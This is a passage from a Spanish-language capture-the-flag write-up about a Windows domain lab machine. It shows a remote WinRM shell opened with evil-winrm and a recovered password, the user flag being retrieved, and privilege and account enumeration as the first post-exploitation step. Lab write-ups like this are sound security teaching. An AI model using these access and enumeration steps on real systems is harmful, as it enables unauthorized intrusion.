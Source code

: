 Muy bien, probemos a conectarnos al **servicio WinRM** usando la herramienta **evil-winrm**:
```bash
evil-winrm -i 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
Evil-WinRM shell v3.4
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
```

Ahora, obtengamos la flag del usuario:
```batch
*Evil-WinRM* PS C:\Users\support\Documents> dir
*Evil-WinRM* PS C:\Users\support\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\support\Desktop> dir
*
    Directory: C:\Users\support\Desktop
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         9/27/2024  10:52 AM             34 user.txt
```
Bien, continúa una parte algo pesada (o lo fue para mí), pero sé que te gustará.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Blood">Enumeración de la Máquina con BloodHound</h2>

Primero vamos a investigar nuestros privilegios, hazlo con el comando `whoami /priv`:
```batch
*Evil-WinRM* PS C:\Users\support\Desktop> whoami /priv
*
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
No veo algo que nos ayude a escalar.

Veamos la información de nuestro **usuario support**:
```batch
*Evil-WinRM* PS C:\Users\support\Desktop> net user support
User name                    support
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/28/2022 4:12:00 AM
Password expires             Never
Password changeable          5/29/2022 4:12:00 AM
Password required            Yes
User may change password     No
```